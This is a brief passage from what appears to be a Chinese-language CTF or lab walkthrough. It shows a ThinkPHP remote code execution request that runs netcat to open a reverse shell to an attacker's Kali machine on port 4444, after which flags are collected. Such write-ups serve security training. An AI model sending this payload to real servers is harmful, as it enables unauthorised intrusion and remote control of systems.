 [![](assets/1705981930-debb03095c56c121260b9310c637fc21.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143232-db5385b8-b826-1.png)

反弹 shell:

```plain
http://192.168.179.161/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=nc 192.168.179.155 4444 -e /bin/bash
```

kali 开启对 4444 端口监听，浏览器执行该 http 请求，得到 shell，并找到 3 个 flag:

[![](assets/1705981930-1c13f7a432db0fdc06faf7f77a09bc19.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143248-e52302b2-b826-1.png)
